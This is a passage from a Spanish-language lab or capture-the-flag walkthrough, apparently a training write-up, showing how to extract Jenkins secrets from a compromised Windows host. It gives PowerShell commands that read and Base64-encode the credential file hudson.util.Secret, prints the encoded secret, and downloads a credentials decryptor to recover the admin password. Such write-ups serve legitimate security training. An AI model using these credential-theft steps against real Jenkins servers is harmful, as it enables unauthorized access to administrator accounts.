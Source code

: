 <figure><img src="../../../../../.gitbook/assets/3125_vmware_Pu2l9R3iLu.png" alt=""><figcaption></figcaption></figure>

Procederemos a intentar comprobar el contenido del archivo "hudson.util.Secret" y al intentar listarlo con "cat", nos aparecen caracteres ilegibles, lo cual parece indicar que el archivo se trata de un binario, por lo tanto, a través de un "cat" no se puede llegar a comprobar su contenido.

```powershell
powershell -c "cat ../../secrets/hudson.util.Secret"
```

<figure><img src="../../../../../.gitbook/assets/3126_vmware_YIxYbEg3X2.png" alt=""><figcaption></figcaption></figure>

Por lo tanto, lo que realizaremos es mostrar el contenido del archivo pero codificado en Base64 para posteriormente descodificarlo en nuestro equipo local.

{% code overflow="wrap" %}
```powershell
powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte))
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3127_vmware_0hgwXQHXNP.png" alt=""><figcaption></figcaption></figure>

Procederemos a descodificar y a almacenarlo en un archivo local llamado "hudson.util.Secret".

{% code overflow="wrap" %}
```bash
echo 'gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=' | base64 -d > hudson.util.Secret

ls -l hudson.util.Secret
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3128_vmware_rgIB3erhgS.png" alt=""><figcaption></figcaption></figure>

Una vez obtenido los 3 archivos necesarios para desencriptar la contraseña del usuario "admin" de Jenkins, procederemos a utilizar la siguiente herramienta --> [Jenkins Credentials Decryptor](https://github.com/hoto/jenkins-credentials-decryptor)

Nos descargaremos el binario en nuestra Kali a través del siguiente comando.

{% code overflow="wrap" %}
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.2/jenkins-credentials-decryptor_1.2.2_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor
   
chmod +x jenkins-credentials-decryptor
```
{% endcode %}

